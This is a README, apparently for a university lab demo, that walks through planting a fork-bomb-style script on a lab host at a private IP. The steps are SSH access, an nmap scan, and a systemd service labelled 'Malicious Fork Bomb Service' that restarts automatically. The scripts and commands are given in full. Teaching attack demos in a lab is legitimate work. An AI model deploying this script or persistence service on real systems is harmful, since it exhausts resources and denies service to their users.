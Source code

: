 # Fork Bomb Demo

This demo showcases the setup and execution of a fork bomb on a remote machine. The fork bomb script is installed as a systemd service and runs under the demo user.

## Prerequisites

- SSH access to the target machine (ST24-401D - 10.10.248.157) with user `cs401`.
- `sudo` privileges on the target machine.
- Basic understanding of systemd services and bash scripting.

## Automatic Execution

In case you want to run the attack on your own in live, all you need to do is run the following steps:

1. **Execute Demo Script**

    Run the demo script and insert the password for the demo user:

    ```bash
    ./demo.sh
    ```
1. **SSH into the Target Machine as the Demo User**

   Connect via SSH to remote host as `demo` user:

   ```bash
   ssh demo@10.10.248.158
   ```
1. **Execute Attack Script**

   Run the attack script and insert the password for the demo user:

   ```bash
   ./attack.sh
   ```
   
## Explanation - Steps in Script

1. **Login to the Target Machine**

    Use SSH to log in to the attacker machine with the `cs401` user.

    ```bash
    ssh cs401@10.10.248.157
    ```

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    sudo nmap -p 1-30 10.10.248.158
    ```

1. **SSH into the Target Machine as the Demo User**

    Switch to the demo user on the target machine.

    ```bash
    ssh demo@10.10.248.158
    ```

1. **Create the Fork Bomb Script**

    Create a bash script that continuously spawns child processes.

    ```bash
    sudo touch /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo tee /usr/local/bin/fork_bomb.sh > /dev/null << EOF
    #!/bin/bash

    create_child_process() {
        sleep 9999 &
        child_pid=\$!
        echo "Created child process with PID: \$child_pid"
    }

    trap 'kill \$(jobs -p); exit' SIGINT SIGTERM

    while true
    do
        for i in \$(seq 1 60);
        do
            create_child_process
        done
        sleep 30
    done
    EOF
    ```

1. **Make the Script Executable and Set Ownership**

    Grant execute permissions to the script and change its ownership to the demo user.

    ```bash
    sudo chmod +x /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo chown demo: /usr/local/bin/fork_bomb.sh
    ```

1. **Create a systemd Service for the Fork Bomb**

    Set up a systemd service to manage the fork bomb script.

    ```bash
    sudo touch /etc/systemd/system/fork.service
    ```

    ```bash
    sudo tee /etc/systemd/system/fork.service > /dev/null << EOF
    [Unit]
    Description=Malicious Fork Bomb Service
    After=network.target

    [Service]
    ExecStart=/usr/local/bin/fork_bomb.sh
    ExecStop=/bin/kill -s SIGTERM \$MAINPID
    Restart=always
    User=demo
    KillMode=process
    Type=simple

    [Install]
    WantedBy=multi-user.target
    EOF
    ```

1. **Reload systemd and Start the Fork Bomb Service**

    Reload systemd to recognize the new service and then start the fork bomb.

    ```bash
    sudo systemctl daemon-reload
    ```

    ```bash
    sudo systemctl start fork.service
    ```
